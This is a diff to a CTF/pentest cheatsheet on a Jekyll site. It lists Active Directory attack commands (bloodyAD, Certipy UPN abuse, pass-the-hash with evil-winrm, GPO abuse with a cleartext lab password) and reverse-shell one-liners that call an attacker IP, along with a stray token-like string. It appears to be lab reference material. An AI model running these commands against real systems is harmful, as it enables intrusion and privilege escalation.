

Before and after one commit to haxrbyte/ghost-shell, a Jekyll site: the page built from docs/Cheatsheets/ctf-cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 2627 px. Shown: the whole window at 94% size, without its empty margins (143-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update CTF Cheatsheet

````diff
--- a/docs/Cheatsheets/ctf-cheatsheet.md
+++ b/docs/Cheatsheets/ctf-cheatsheet.md
@@ -16,25 +16,119 @@
 sudo rustscan -a <hostname> -- -sCV -oA <filename>
 ```
 
-# SMB
-
-```bash
-smbclient -L //<target> -U <username>%<password>
-```
-```bash
-smbclient //<target>/<share> -U <username>%<password>
-```
-
 # BloodHound
 
 ```bash
+sudo systemctl start docker
+sudo systemctl enable docker
+sudo systemctl status docker
+
+(remove)
+sudo docker compose down -v --rmi all
+
+(install)
+sudo curl -L https://ghst.ly/getbhce | sudo docker compose -f - up
+wget https://ghst.ly/getbhce -O docker-compose.yml
+* sudo docker compose up
+
 sudo ./bloodhound containers start
+
+bUdI0thxdF7MV1WnCRF_sXtRSjQzL1Y7
 ```
 
 ## RustHound
 
 ```bash
 rusthound-ce --domain <domain_name> -u <username> -p <password>
+rusthound-ce --domain <domain_name> -k -no-pass
+```
+
+# SMB (AD)
+
+## smbclient
+
+```bash
+smbclient -L //<target> -U <username>%<password>
+
+smbclient //<target>/<share> -U <username>%<password>
+```
+
+## NetEXEC
+
+```bash
+uv run nxc smb <target> -k --use-kcache --generate-krb5-file <krb_configfile>
+
+export KRB5CCNAME=<user.ccache>
+uv run nxc smb <target> -k --use-kcache
+```
+
+## BloodyAD
+
+```bash
+bloodyAD --host <ip_address> -u <user> -p <password> -d <domain> add groupMember 'group_name_to_add' user_to_add
+bloodyAD --host <ip_address> -u <user> -p <password> -d <domain> set password 'name_password_change' 'new_password'
+bloodyAD --host <ip_address> -u <user> -p <password> -d <domain> remove uac -f ACCOUNTDISABLE 'name_disabled'
+
+# Add Machine Account
+bloodyAD --host <ip_address> -u <user> -p <password> -d <domain> add computer <name> <password>
+impacket-addcomputer -computer-name <name> -computer-pass <password> domain/user:'password' -dc-ip <ip_address>
+```
+
+## Certipy
+
+```bash
+certipy-ad
+
+certipy find -username <username> -hashes <:ntlm_hash> -dc-ip <ip_address> -vulnerable
+
+# Request cert and update the UPN of Administrator
+certipy req -u <username> -hashes <:ntlm_hash> -ca <ca_name> -template <ca_template> -upn <administrator> -dc-ip <ip_address> -sid <sid>
+
+certipy account -u <username> -p <password> -dc-ip <ip_address> -user <ca_svc> -upn <username> update
+
+# User certificate to request the NT Hash
+certipy auth -dc-ip ip_address -pfx administrator.pfx -username administrator -domain domain_name
+```
+
+## Evil-winrm
+
+```bash
+evil-winrm -i <ip_address> -u <username> -H <ntlm_hash>
+```
+
+## Kerbrute
+
+```bash
+git clone https://github.com/ropnop/kerbrute.git
+cd kerbrute
+go build
+
+GOOS=linux GOARCH=arm64 go build -o kerbrute
+
+./kerbrute userenum --domain <domain> --dc <dc_name> <username_file>
+```
+
+## Username-Anarchy
+
+```bash
+git clone https://github.com/urbanadventurer/username-anarchy.git
+
+./username-anarchy -i <username_file>
+```
+
+## Generate-AD-Username
+
+```bash
+git clone https://github.com/w0Tx/generate-ad-username.git
+
+python3 generate-ad-username/ADGenerator.py names.csv
+```
+
+## GPO Abuse
+
+```bash
+└─$ python3 pygpoabuse.py sysco.local/greg.shields:'5y5coSmarter2025!!!' -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' -command 'net localgroup administrators greg.shields /add'
+[+] ScheduledTask TASK_11049927 created!
 ```
 
 # Remote Access
@@ -51,71 +145,144 @@
 
 # Web Enumeration
 
-## Files or Directories
+## **Files or Directories**
+
 ```bash
 dirsearch -u http://<target>
-```
-```bash
+
 gobuster dir -u http://<target> -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html
-```
-```bash
+
 dirb http://<target>
-```
-```bash
+
+ffuf (golang)
 ffuf -u "http://<target>/FUZZ" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.aspx,.html,.txt
-```
-```bash
+-e = comma seperated list of extentions (extends FUZZ keyword)
+-recurtion = recurtion on (default: false)
+-mc = display HTTP status codes (default: ALL)
+
+feroxbuster (rust)
 feroxbuster -u https://<target>
+-f = append '/' to each URL
+-n = no recursion
 ```
 
-## Vhosts or SubDomains
+## **SubDomains (vHost)**
+
 ```bash
 gobuster vhost -u http://<target> -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
-```
-```bash
+
 ffuf -u http://<target> -H "Host: FUZZ.<domain_name>" -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000 -ic -c -fs <size>
+-ic = ignore wordlist comments (default: false)
+-c = color output (default: false)
 ```
 
 ## Brute Force Login Form
+
 ```bash
 ffuf -request req.txt -request-proto http -mode clusterbomb -w usernames.txt:HFUZZ -w passwords.txt:WFUZZ
 ```
 
 # Vulnerability Scanner
+
 ```bash
+(remote scan)
 nuclei -u <target>
+-up = update nuclei
+-ut = update templates
+
+(local scan)
+nuclei -u <folder_name> -file
 ```
+
+---
 
 # SHELLS
 
 ## Listener
+
 ```bash
-rlwrap nc -nvlp <8080:port>
+nc -lvnp <8080:port>
+
+- Readline Wrapper
+rlwrap nc -lvnp <8080:port>
+
+penelope -i tun0 -p 1339
 ```
-rlwrap will enhance the shell, allowing you to clear the screen with [CTRL] + [L].
 
 ## Reverse Shell
+
+https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
+
 ```bash
 bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
-```
-```bash
-'bash -c "bash -i >& /dev/tcp/<attachet_ip>/<8080:port> 0>&1"'
-```
-```bash
+"bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<8080:port> 0>&1'"
+
 nc -e /bin/sh <attacker_ip> <8080:port>
+
+busybox nc <attacker_ip> 9090 -e /bin/sh
 ```
 
-## Full TTYs
+## Full/Stable TTYs
+
+```python
+python -c 'import pty;pty.spawn("/bin/bash")'
+ctrl+z
+stty raw -echo
+fg
+
+* export TERM=screen
+
+** You may also need to set the correct terminal size
+stty rows <your_rows_value> cols <your_cols_value>
+stty size
+
+** Note: When you are finished with the stable shell and exit it, your local terminal's echo settings will still be off. You must type `reset` in your local terminal to return it to normal functionality.
+```
+
+# Python Virtual Environment
+
 ```bash
-python -c 'import pty;pty.spawn("/bin/bash")'
+python3 -m venv venv
+source venv/bin/activate
+pip3 install .
+
+OR
+
+pip3 install -r requirements.txt
+
+---
+
+## Python2
+sudo apt install python2
+curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py
+sudo python2 get-pip.py
+
+sudo python2 -m pip install "virtualenv<20"
+
+python2 -m virtualenv my_python2
+source my_python2_env/bin/activate
+# Now you're in a Python 2 environment
+python your_script.py
 ```
 
 # Walkthroughs
-```bash
+
+```html
 https://0xdf.gitlab.io/
 ```
 
 # Resources
-```bash
+
+```html
+# GTFObins
 https://gtfobins.github.io/
+
+# Windows Exploit Suggester - Next Generation
+https://github.com/bitsadmin/wesng
+
+# Reverse Shells
+https://www.revshells.com/
+
+# Penelope
+https://github.com/brightio/penelope
 ```
````
Also changed, not shown: other parts of docs/Cheatsheets/ctf-cheatsheet.md (+1 -1 lines).
